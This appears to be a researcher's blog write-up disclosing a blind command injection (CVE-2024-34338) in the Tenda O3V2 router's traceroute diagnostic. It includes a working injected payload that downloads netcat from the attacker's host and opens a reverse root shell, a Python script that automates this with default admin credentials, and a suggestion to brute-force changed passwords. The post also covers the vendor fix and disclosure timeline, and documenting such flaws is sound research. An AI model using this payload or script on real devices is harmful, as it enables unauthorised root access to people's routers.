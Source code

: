```yaml
---
title: CVE-2024-34338 - Blind Command Injection in Tenda O3V2
date: 2024-05-01 13:00:00 +07:00
tags: [research, hardware]
---
```


Some time ago I had time to research router, the router I used for this research was a router that I hadn't used for a long time, namely Tenda O3V2. I used to use this router to connect to wifi over long distances (we call it "nembak wifi"). This Tenda O3 router actually has several versions, there are first version, second version, and third version, in this research I use the second version. The appearance of the Tenda O3V2 as shown below

![O3V2](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/O3.png)

In this research I found a blind command injection vulnerability in the traceroute feature. Blind command injection is a vulnerability that allows an attacker to execute operating system commands on the server that is running an application and application does not return the output from the command. So, Tenda O3V2 have diagnostic tool which includes traceroute but the ip address or domain input is not validated properly and allows the user to perform blind command injection. To perform blind command injection, the attacker needs admin access on the dashboard, but TendaO3V2 have default credential which is admin:admin, so if the user does not change the password then we can perform out blind command injection, and if the user has change password we still can bruteforce it until we got access in dashboard.

We need to retrieve the httpd binary from the router for static analysis to identify vulnerability within it. There are two methods that can be used: first, by extracting the firmware (download from the official website, the vulnerable firmware version is v1.0.0.12 and v1.0.0.10), and second, by directly accessing it from the live or active router. When using the first method to extract the firmware, no filesystem is found in the firmware, i dont know why, possibly due to encryption, obfuscation, packing in the firmware or something else (my skill issue :( ). Then, when attempting the second method via UART, I failed to solder onto its three pins (RX, TX, and GND) resulting in burnt pin and the pin slightly peeled off (once again, my skill issue). There is telnet on the router, we can use it, I enabled telnet through the dashboard (by default, telnet is disabled, and telnet credentials can be found on the internet) to gain shell access with root privileges. After obtaining shell access with root privileges, we can retrieve the httpd binary.

### Exploitation

Open router’s httpd binary with Ghidra. In the fromTraceroutGet function, there is a call to the FUN_004758f4 function, which contains a function for executing the traceroute command. Within the FUN_004758f4 function, there is the doSystemCmd function (used to perform traceroute), and this function requires user input. It is evident in the uVar5 variable in the fromTraceroutGet function that there is no sanitization; this variable will later be passed to the doSystemCmd function, potentially leading to command injection.

![fromtraceroutget Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fromtraceroutget.png)

![fun_004758f4 Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fun_004758f4.png)

Listen on port 1337 with nc (netcat), then activate the web server to make the router download the netcat binary (mips). Netcat is used for reverse shell.

![Python HTTP Server](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/pythonhttpserver.png)

Visit 192.168.2.1 then go to diagnose, select traceroute, and enter the IP.

![Diagnose](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/diagnose.png)

Intercept request when submit using burpsuite. In the getTraceroute endpoint, our IP is included in the destination parameter.

![Intercept Request](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/interceptrequest.png)

Change the value of the dest parameter to the command we want, for example performing a reverse shell<br>
```bash
;wget 192.168.2.158:8000/netcat -O /tmp/netcat&&chmod +x /tmp/netcat&&./tmp/netcat 192.168.2.158 1337 -e /bin/sh
```
Explanation of this command, the router will download the netcat binary stored in the tmp directory, then the binary will be given execute access and then execute the binary to reverse shell to port 1337. Then forward the request.

![Reverse Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/revshell.png)

Check the web server, and it's visible that the router is downloading the netcat file.

![Download nc MIPS](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/downloadncmips.png)

Check on the listener, the reverse shell is successful. Now, we got full access to the router with root privilege.

![Got Root Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/gotrootshell.png)

We can create a script to automate the process.


```python
import requests

username = "admin"
password = "YWRtaW4="
urllogin = "http://192.168.2.1/login/Auth"
logindata = {
    'username': username,
    'password': password,
    'timeZone': '12',
    'time': '2024;3;29;12;35;22'
}
command = "%3bwget+192.168.2.158:8000/netcat+-O+/tmp/netcat%26%26chmod+%2bx+/tmp/netcat%26%26./tmp/netcat+192.168.2.158+1337+-e+/bin/sh"

with requests.Session() as session:
        print("[Attempt Login]")
        session.post(urllogin, data=logindata)
        req = session.get(f"http://192.168.2.1/goform/getTraceroute?dest=1.1.1.1{command}&hop=1&_=1713166068405")
        print("[Got shell, Check your listener]")
```

### Mitigation

When this article was published, Tenda had already released new firmware for this device with firmware version 1.0.0.13(10751_5755). In this firmware version, the vulnerability has been fixed by implementing sanitization. Before entering the doSystemCmd function, user input will go through the is_valid_ip_or_domain function. If the input consists of numbers, it will return 1, then proceed to the doSystemCmd function, and the traceroute command will be executed.

![Sanitization](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/sanitization.png)

![is_valid_ip_or_domain Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/is_valid_ip_or_domain.png)


They still haven't released the new firmware to the public but you can download the latest firmware [here](https://drive.google.com/file/d/1687UGmpNgmPnvOeJtIuDvoEUrDh7VSKZ/view?usp=sharing){:target="_blank"}{:rel="noopener noreferrer"}


### Timeline
25 March 2024: Vulnerability discovered and the initial contact inquired about Security Vulnerability Reporting to the vendor via email.<br>
28 March 2024: Vendor replied to directly contact to their email.<br>
29 March 2024: Sent them the details of the vulnerability discovered.<br>
30 March 2024: Vendor triage the vulnerability.<br>
7 April 2024: Vendor release new firmware version 1.0.0.13(10751_5755).<br>
8 April 2024: Retesting on the new firmware version and confirming the vulnerability has been fixed.<br>
7 May 2024: CVE ID assigned